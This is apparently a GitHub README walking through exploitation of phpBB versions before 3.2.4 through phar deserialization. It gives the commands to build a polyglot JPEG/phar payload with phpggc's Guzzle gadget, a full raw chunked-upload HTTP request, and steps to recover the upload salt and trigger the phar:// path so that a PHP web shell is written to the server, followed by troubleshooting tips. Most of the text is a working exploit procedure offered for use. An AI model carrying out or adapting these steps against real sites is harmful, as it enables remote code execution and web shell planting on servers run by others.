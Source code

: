 # Exploiting phpBB < 3.2.4 with a super administrator account
Technique taken from the following article. Article also contains technical details regarding the exploitation.  
I am NOT the author of the following article, I have only researched and provided the details to exploit this vulnerability.
https://blog.ripstech.com/2018/phpbb3-phar-deserialization-to-remote-code-execution/  

### Step 1  - Create the payload  
  
Download the following repo  
git clone https://github.com/s-n-t/phpggc.git  
cd phpggc  
git clone https://github.com/RealLinkers/NiceForum  
chmod +x pharggc  
./pharggc -j ./NiceForum/yourawesomepicture.jpg -o polyglotfiletoupload.jpg Guzzle/FW1 /var/www/html/shell.php ./NiceForum/shell.php  

./pharggc -j <yourphoto.jpg> -o <polyglot.jpg> Guzzle/FW1 <your remote directory where the file will be written to> <your local shell file>  
  
 
### Step 2 - Exploiting the forum  
  
1. Upload the attachment and split it into two chunks so it get's uploaded to files/plupload (the temporary storage for chunks). Put all of the payload in the first chunk 0/2 and send it via burp  
```POST /posting.php?mode=reply&f=2&sid=f0cf1836f4751c7d0a7db22b0896065d&t=2 HTTP/1.1
Host: <ip>
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://<ip>/posting.php?mode=reply&f=2&t=2&sid=f0cf1836f4751c7d0a7db22b0896065d
x-phpbb-using-plupload: 1
x-requested-with: XMLHttpRequest
Content-Length: 131921
Content-Type: multipart/form-data; boundary=---------------------------807136852579486344452419761
Connection: close

-----------------------------807136852579486344452419761
Content-Disposition: form-data; name="name"
o_1d0m7o1d0c9vq5suit1gfp1dspa.jpg

-----------------------------807136852579486344452419761

Content-Disposition: form-data; name="chunk"
0

-----------------------------807136852579486344452419761
Content-Disposition: form-data; name="chunks"
2

-----------------------------807136852579486344452419761
Content-Disposition: form-data; name="add_file"
Add the file

-----------------------------807136852579486344452419761
Content-Disposition: form-data; name="real_filename"
horizon-dawn-real.jpg

-----------------------------807136852579486344452419761
Content-Disposition: form-data; name="fileupload"; filename="blob"
Content-Type: application/octet-stream

�����xt... <content>
-----------------------------807136852579486344452419761
```    
2. Beat the filename randomization by downloading the database backup, the parameter is in the row plupload_salt. ACP -> Maintenance -> Backup  
3. The filename consists of MD5 which is derived from the request's random filename. In this case MD5(o_1d0m7o1d0c9vq5suit1gfp1dspa.jpg)
The whole schema conists of <salt>_<md5>jpg.part  
4. After that navigate to General -> Attachment settings, put in the file path phar://./../files/plupload/<salt>_<md5>jpg.part  
5. In case of succesful exploitation a php file, which contains your shell should be generated on the directory you specified.
  
For a more graphical overview check out the blog post's POC video.  
  
Common errors:    
1. Incorrect file path on the server  
2. The www-data user has no permissions to write to web directory. It will throw an error from Guzzle that permission is denied.  
3. If you would like to customize your shell, it must be a onliner without any </n> line breaks and mustn't contain any <"> characters without proper escaping.  


